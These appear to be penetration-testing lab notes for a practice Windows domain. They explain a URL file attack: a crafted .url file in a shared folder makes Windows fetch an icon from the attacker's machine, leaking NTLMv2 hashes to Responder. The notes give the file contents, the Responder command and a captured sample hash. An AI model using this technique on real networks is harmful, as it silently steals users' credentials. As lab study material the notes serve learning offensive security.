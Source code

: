 **A URL file attack captures account hashes via a user accessing a folder that contains a specially crafted file that forces the user to request an icon off the attackers machine. The resource does not exist though. The act of initiating a connection to the attackers machine is how the hash is captured. Also note that the user does not need to open the file, nor is their any indication that anything has happened behind the scenes. They just need to open the folder that the file is located in which makes this a perfect for shared folders. **
https://swepstopia.com/url-file-attack/
In Windows 10 VM, create notepad file:
```batch
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\$KALI\%USERNAME%.icon
IconIndex=1
```
Save file as "@test.url" in:
`\\Xandar.MARVEL.local\hackme`
[[1_Responder]]
```bash
sudo responder -I eth0 -v
```
Whatever user opens the folder is the hash we will capture in responder. Note the NTLMv2 hash.
Now go to Windows VM, and access the hackme share.
Win+R
```batch
\\Xandar.MARVEL.local\hackme
```
`groot::MARVEL:8b5fbb978d112491:18D9D8D8024A56674DD599A9BB864E87:010100000000000080E56134C3FDD701DDD68E450296A7100000000002000800540039005`
![[Hashcat#NetNTLMv2]]
